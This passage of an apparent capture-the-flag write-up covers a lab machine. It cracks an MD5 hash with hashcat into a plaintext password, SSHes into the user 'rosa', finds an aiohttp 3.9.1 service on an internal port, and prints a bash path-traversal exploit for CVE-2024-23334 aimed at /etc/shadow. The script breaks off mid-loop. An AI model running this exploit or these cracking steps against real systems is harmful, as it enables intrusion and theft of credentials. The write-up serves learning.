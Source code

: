 ```
$ echo "63ed86ee9f624c7b14f1d4f43dc251a5" > hashfile.txt
$ hashcat -m 0 -a 0 -o cracked.txt hashfile.txt /usr/share/wordlists/rockyou.txt
...
$ cat cracked.txt
63ed86ee9f624c7b14f1d4f43dc251a5:unicorniosrosados
```

And I can use the above credentials to `ssh` into `rosa`'s account. Once I get in there is a file in the entry point `user.txt` which has the user flag.

```
rosa@chemistry:~$ ss -tulpn
...
tcp      LISTEN    0         128              127.0.0.1:8080            0.0.0.0:*                                        
```

After some research I see port 8080 is listening. 

```
rosa@chemistry:~$ nc -vz 127.0.0.1 8080
Connection to 127.0.0.1 8080 port [tcp/http-alt] succeeded!
rosa@chemistry:~$ curl http://127.0.0.1:8080
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Site Monitoring</title>
    <link rel="stylesheet" href="/assets/css/all.min.css">
    <script src="/assets/js/jquery-3.6.0.min.js"></script>
    <script src="/assets/js/chart.js"></script>
    <link rel="stylesheet" href="/assets/css/style.css">
    <style>
```

A netcat call to the port internally, succeeds, I see that I'm able to ping it. I can hit the endpoint with a `curl` command and I get html in response. 

```
rosa@chemistry:~$ curl -I http://127.0.0.1:8080
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 5971
Date: Thu, 24 Oct 2024 03:20:52 GMT
Server: Python/3.9 aiohttp/3.9.1
```

I see the server is running `aiohttp/3.9.1`, which is exploitable via the following github POC: 
https://github.com/z3rObyte/CVE-2024-23334-PoC

After running the following `exploit.sh`

```
#!/bin/bash

url="http://127.0.0.1:8081"
string="../"
payload="/assets/"
file="etc/shadow" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
```